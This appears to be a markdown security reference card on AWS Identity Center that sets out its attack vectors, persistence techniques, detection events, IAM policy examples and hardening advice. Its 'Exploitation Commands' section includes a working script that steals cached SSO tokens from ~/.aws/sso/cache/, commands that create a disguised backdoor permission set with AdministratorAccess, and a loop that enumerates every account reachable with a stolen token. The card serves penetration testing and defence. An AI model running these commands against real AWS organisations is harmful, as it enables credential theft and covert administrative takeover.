

#  AWS Identity Center Security



> **Category**: IDENTITY

AWS Identity Center (formerly AWS SSO) provides centralized access to multiple AWS accounts and applications. A single compromised SSO credential grants access to every account in the organization via cached tokens.

## Quick Stats

| Blast Radius | Max Session | Federation | Token Theft |
| --- | --- | --- | --- |
| **All Accts** | **12 hrs** | **SAML/OIDC** | **SSO Cache** |

## Service Overview

### SSO Portal & Access

Identity Center provides a web portal where users authenticate once and access any assigned AWS account. The portal issues temporary credentials via GetRoleCredentials, with sessions lasting up to 12 hours by default.

### Permission Sets

Permission Sets define the IAM policies applied when a user accesses an account. They create IAM roles in each target account. AdministratorAccess Permission Sets are common and grant full control over every assigned account.

### Federation & Identity Providers

Identity Center can federate with external IdPs via SAML 2.0 or OIDC. If the external IdP (Okta, Azure AD, etc.) is compromised, the attacker gains access to every AWS account in the organization through the trust chain.

## Security Risk Assessment

`██████████` **9.5/10** (CRITICAL)

Identity Center is the single point of access for all AWS accounts. Compromising one SSO credential or the external IdP grants access to every account. Cached SSO tokens on disk enable offline credential theft.

## ⚔️ Attack Vectors

### Credential Theft

- Steal SSO cache tokens from ~/.aws/sso/cache/
- Browser session hijacking of SSO portal
- Phishing the SSO start URL login page
- Compromise external IdP (Okta, Azure AD) for full access
- SAML response interception and replay

### Permission Abuse

- GetRoleCredentials chain across all assigned accounts
- AdministratorAccess Permission Set grants full admin
- Delegated admin creating backdoor permission sets
- SCIM provisioning abuse to create shadow users
- Session duration of 12 hours allows extended operations

## ⚠️ Misconfigurations

### Access Control Issues

- AdministratorAccess Permission Set assigned broadly
- MFA not enforced for SSO login
- Session duration set to maximum 12 hours
- No IP-based access restrictions on SSO portal
- Permission Sets not using inline policy boundaries

### Federation & Provisioning

- External IdP with weak MFA or no conditional access
- SCIM provisioning token never rotated
- Delegated admin account not sufficiently hardened
- No monitoring of permission set changes
- Stale user assignments not cleaned up

## 🔍 Enumeration

**List Accessible Accounts**
```bash
aws sso list-accounts \\
  --access-token <sso-access-token>
```

**List Account Roles**
```bash
aws sso list-account-roles \\
  --access-token <sso-access-token> \\
  --account-id 123456789012
```

**List Permission Sets**
```bash
aws sso-admin list-permission-sets \\
  --instance-arn arn:aws:sso:::instance/ssoins-1234567890
```

**Describe Permission Set**
```bash
aws sso-admin describe-permission-set \\
  --instance-arn arn:aws:sso:::instance/ssoins-1234567890 \\
  --permission-set-arn arn:aws:sso:::permissionSet/ssoins-1234567890/ps-abc123
```

**List Account Assignments**
```bash
aws sso-admin list-account-assignments \\
  --instance-arn arn:aws:sso:::instance/ssoins-1234567890 \\
  --account-id 123456789012 \\
  --permission-set-arn arn:aws:sso:::permissionSet/ssoins-1234567890/ps-abc123
```

## 🚨 Key Concepts

### SSO Token Chain

- SSO access token in ~/.aws/sso/cache/ grants multi-account access
- sso:ListAccounts reveals all accounts the user can access
- sso:ListAccountRoles shows available roles per account
- sso:GetRoleCredentials returns temporary IAM credentials
- One stolen token = credentials for every assigned account

### IdP Compromise Impact

- External IdP compromise = complete AWS organization compromise
- SAML assertion forging creates arbitrary sessions
- OIDC token manipulation bypasses AWS-side controls
- IdP admin can create new users with any permission set
- No AWS-side control can prevent access if IdP is compromised

## ⚡ Persistence Techniques

### Identity Persistence

- Create backdoor user in Identity Center directory
- Create new permission set with AdministratorAccess
- Assign backdoor user to all accounts
- Add external IdP trust for attacker-controlled IdP
- SCIM provisioning to auto-create users from external source

### Token & Session Persistence

- Cache SSO tokens for extended access (up to 12 hours)
- Use GetRoleCredentials to obtain IAM creds in each account
- Create IAM access keys in target accounts for backup access
- Modify permission set session duration to maximum
- Register additional MFA device on compromised user

## 🛡️ Detection

### CloudTrail Events

- CreatePermissionSet - new permission set created
- CreateAccountAssignment - user assigned to account
- GetRoleCredentials - SSO credentials retrieved
- CreateUser - new user created in Identity Center
- UpdatePermissionSet - permission set policies modified

### Indicators of Compromise

- GetRoleCredentials from unusual IPs or user agents
- New permission sets with AdministratorAccess
- Account assignments to unknown users or groups
- SSO logins from unusual geolocations
- Permission set modifications outside change windows

## Exploitation Commands

**Get Role Credentials (Pivot to Account)**
```bash
aws sso get-role-credentials \\
  --access-token <sso-access-token> \\
  --account-id 123456789012 \\
  --role-name AdministratorAccess
```

**Create Backdoor Permission Set**
```bash
aws sso-admin create-permission-set \\
  --instance-arn arn:aws:sso:::instance/ssoins-1234567890 \\
  --name "ReadOnlyAudit" \\
  --session-duration PT12H
```

**Attach Admin Policy to Permission Set**
```bash
aws sso-admin attach-managed-policy-to-permission-set \\
  --instance-arn arn:aws:sso:::instance/ssoins-1234567890 \\
  --permission-set-arn arn:aws:sso:::permissionSet/ssoins-1234567890/ps-abc123 \\
  --managed-policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

**Assign User to All Accounts**
```bash
aws sso-admin create-account-assignment \\
  --instance-arn arn:aws:sso:::instance/ssoins-1234567890 \\
  --target-id 123456789012 \\
  --target-type AWS_ACCOUNT \\
  --permission-set-arn arn:aws:sso:::permissionSet/ssoins-1234567890/ps-abc123 \\
  --principal-type USER \\
  --principal-id <user-id>
```

**Steal SSO Cache Token (Linux/Mac)**
```bash
cat ~/.aws/sso/cache/*.json | python3 -c "
import sys,json
for line in sys.stdin:
  d=json.loads(line)
  if 'accessToken' in d:
    print(d['accessToken'])"
```

**Enumerate All Account Access**
```bash
TOKEN=$(cat ~/.aws/sso/cache/*.json | jq -r 'select(.accessToken) | .accessToken' | head -1)
for acct in $(aws sso list-accounts --access-token $TOKEN --query 'accountList[].accountId' --output text); do
  echo "=== Account: $acct ==="
  aws sso list-account-roles --access-token $TOKEN --account-id $acct --query 'roleList[].roleName' --output text
done
```

## Policy Examples

### ❌ Dangerous - Full SSO Admin

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "sso:*",
      "sso-directory:*",
      "identitystore:*"
    ],
    "Resource": "*"
  }]
}
```

*Full SSO access allows creating users, permission sets, and assigning admin access to all accounts*

### ✅ Secure - Read-Only SSO Monitoring

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "sso:Describe*",
      "sso:List*",
      "sso:Get*",
      "sso-directory:Describe*",
      "sso-directory:List*"
    ],
    "Resource": "*"
  }]
}
```

*Read-only access for security auditing without ability to modify access*

### ❌ Dangerous - Delegated Admin Without Guardrails

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "sso:CreatePermissionSet",
      "sso:CreateAccountAssignment",
      "sso:AttachManagedPolicyToPermissionSet"
    ],
    "Resource": "*"
  }]
}
```

*Delegated admin can create permission sets with AdministratorAccess and assign them to any account*

### ✅ Secure - SCP Restrict SSO Modifications

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Sid": "DenySSOMod",
    "Effect": "Deny",
    "Action": [
      "sso:CreatePermissionSet",
      "sso:DeletePermissionSet",
      "sso:CreateAccountAssignment",
      "sso:DeleteAccountAssignment"
    ],
    "Resource": "*",
    "Condition": {
      "StringNotEquals": {
        "aws:PrincipalOrgMasterAccountId": "${'${'}aws:PrincipalAccount}"
      }
    }
  }]
}
```

*SCP restricts SSO modifications to the management account only, preventing delegated admin abuse*

## Defense Recommendations

### 🔐 Enforce MFA on All SSO Users

Require MFA at the Identity Center level and at the external IdP for defense in depth.

### ⏱️ Reduce Session Duration

Set session duration to 1 hour instead of the default 12 hours to limit credential exposure.

```bash
aws sso-admin update-permission-set \\
  --instance-arn <instance-arn> \\
  --permission-set-arn <ps-arn> \\
  --session-duration PT1H
```

### 🚫 SCP Restrict SSO Changes

Use SCPs to prevent member accounts from modifying Identity Center configuration.

### 📡 Monitor Permission Set Changes

Alert on CreatePermissionSet, CreateAccountAssignment, and AttachManagedPolicyToPermissionSet events.

```bash
aws cloudwatch put-metric-alarm \\
  --alarm-name SSOPermissionSetChange \\
  --metric-name SSOModification \\
  --namespace CustomSSO --threshold 1
```

### 🔒 Harden External IdP

Enable conditional access policies, phishing-resistant MFA (FIDO2), and anomaly detection on the IdP.

### 🔍 Audit SSO Token Cache

Monitor for unauthorized access to ~/.aws/sso/cache/ directory on developer workstations.

```bash
find ~/.aws/sso/cache/ -name '*.json' -mmin -60
```

---

*AWS Identity Center Security Card*

*Always obtain proper authorization before testing*
